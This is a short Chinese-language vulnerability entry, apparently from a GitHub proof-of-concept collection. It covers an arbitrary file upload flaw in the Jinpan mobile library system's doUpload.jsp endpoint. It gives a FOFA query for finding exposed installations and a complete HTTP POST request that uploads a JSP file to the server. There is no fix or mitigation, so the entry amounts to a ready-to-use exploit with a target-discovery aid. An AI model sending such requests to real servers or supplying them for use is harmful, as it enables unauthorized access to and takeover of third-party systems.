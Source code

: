 ## 金盘移动图书馆系统存在任意文件上传漏洞

金盘图书馆微信管理平台 doUpload.jsp接口存在任意文件上传漏洞，攻击者通过漏洞可以获取权限。

## fofa
```
app="金盘软件-金盘移动图书馆系统"
```

## poc
```
POST /pages/admin/tools/uploadFile/doUpload.jsp HTTP/1.1
Content-Type: multipart/form-data; boundary=399e563f0389566bd40fd4d6409a67dd
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Host: 127.0.0.1
Content-Length: 179
Connection: close

--399e563f0389566bd40fd4d6409a67dd
Content-Disposition: form-data; name="file"; filename="jILUp0.jsp.jsp"

<% out.println("lP4pC7HrY"); %>
--399e563f0389566bd40fd4d6409a67dd--
```

![image](https://github.com/wy876/POC/assets/139549762/17f45fd2-35a6-474a-b2ee-c6f49426423a)
